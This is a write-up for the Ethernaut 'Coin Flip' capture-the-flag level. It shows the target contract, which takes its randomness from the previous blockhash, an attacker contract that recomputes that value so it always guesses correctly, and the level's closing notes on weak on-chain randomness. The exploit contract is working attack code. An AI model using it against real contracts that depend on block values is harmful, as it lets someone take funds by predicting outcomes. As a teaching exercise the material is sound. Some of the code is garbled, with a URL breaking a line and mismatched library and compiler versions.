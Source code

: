 ## Ethernaut-solution
---

### 3.Coin Flip  
 *Filiping => used for emphasis or to express mild annoyance.<br>
 *consective => following each other continuously.

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"

```solidity
/CoinFlip.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); //global function and global variable 
https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

```solidity
/CoinFlipAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

  CoinFlip public victimContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimContractAddr) public {
    victimContract = CoinFlip(_victimContractAddr);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue/FACTOR);
    bool side = coinFlip == 1 ? true : false;
    victimContract.flip(side);
  }
}
```

---

Level completed!
Difficulty 3/10

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
















